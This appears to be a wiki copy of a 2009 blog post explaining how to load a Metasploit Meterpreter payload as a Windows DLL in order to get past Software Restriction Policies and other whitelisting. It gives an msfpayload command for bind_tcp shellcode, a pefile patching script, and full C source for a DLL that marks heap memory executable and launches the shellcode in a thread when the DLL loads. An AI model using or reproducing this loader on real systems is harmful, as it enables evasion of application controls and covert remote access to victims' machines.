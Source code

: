 <!-- TITLE: Payloaddll -->
<!-- SUBTITLE: A quick summary of Payloaddll -->

From
http://hype-free.blogspot.com/2009/01/loading-meterpreter-in-dll.html

Some times it may be useful to load the Meterpreter (or any payload in fact) as a DLL. Two scenarios I can think of:

Software Restriction Policies (and many other whitelisting products) don't filter DLLs (even though, they probably can be configured - SRP can be for example), so it might be useful to get in and execute the code from a DLL.
It may be interesting to load it in a MSI.

Anyway, first I tried the easy way: generate an executable and patch it as a DLL with a short pefile script:

import pefile
pe = pefile.PE("runme.exe")
pe.FILE_HEADER.Characteristics += 0x2000
pe.write(filename="loadme.dll")

This works... With a couple quite problematic shortcomings:

The PE file generated by msfpayload is based at 0x400000 and contains no relocation information, making it quite unlikely that it can be loaded in any real application...
And second: the launching of the shellcode is done from what is the "DllMain", resulting in the fact that the thread which loads the DLL will go in never ever land and won't be heard of again (with less nonsense: it will execute the shellcode and won't return from it, which can lead to things like freezing GUI / application if it is loaded from the main thread).

The conclusion is that a custom DLL written in C is needed. Fortunately it is quite easy to write such a thing. For this example I use the LCC-Win32 compiler because it is a nice and slim one, but you can use anything (like GCC, Watcom C - which is also free BTW - or even Visual C++).

First, export the shellcode:

./msfpayload windows/meterpreter/bind_tcp C > foo.txt

You should see something like the following in the output file:

unsigned char buf[] =

"\xfc\xe8\x56\x00\x00\x00\x53\x55\x56\x57\x8b\x6c\x24\x18\x8b"

...

Now it is time to create the project. The full source code is below (I omitted the actual payload code to shorted the post a little:


```text
#include <windows.h>

#include <string.h>



#ifdef __cplusplus

extern "C" DWORD WINAPI __declspec(dllexport) doNothingFunc(HANDLE hInstaller);

#endif



unsigned char buf[] =

"\xfc\xe8\x56\x00\x00\x00\x53\x55\x56\x57\x8b\x6c\x24\x18\x8b"

...;


DWORD WINAPI __declspec(dllexport) doNothingFunc(HANDLE hInstaller) {

 // we have done nothing successfully :-)

 MessageBox(NULL, "Here!", "Here!", MB_OK + MB_SERVICE_NOTIFICATION);

 return ERROR_SUCCESS;

}



DWORD WINAPI startShellcode(LPVOID lpParameter) {

 DWORD oldProtect;

 DWORD (*shellcode)(void);



 HANDLE hHeap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(buf), 2*sizeof(buf));

 if (NULL == hHeap) return GetLastError();

 void *shellCodeCopy = HeapAlloc(hHeap, 0, sizeof(buf));

 if (NULL == shellCodeCopy) return GetLastError();



 memcpy(shellCodeCopy, buf, sizeof(buf));

 VirtualProtect(shellCodeCopy, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

 shellcode = shellCodeCopy;

 return shellcode();

}



BOOL WINAPI __declspec(dllexport) LibMain(HINSTANCE hDLLInst, DWORD fdwReason, LPVOID lpvReserved) {

 if (DLL_PROCESS_ATTACH == fdwReason) {

  CreateThread(NULL, 0, startShellcode, NULL, 0, NULL);

  Sleep(500);

 }

    return TRUE;

}


```
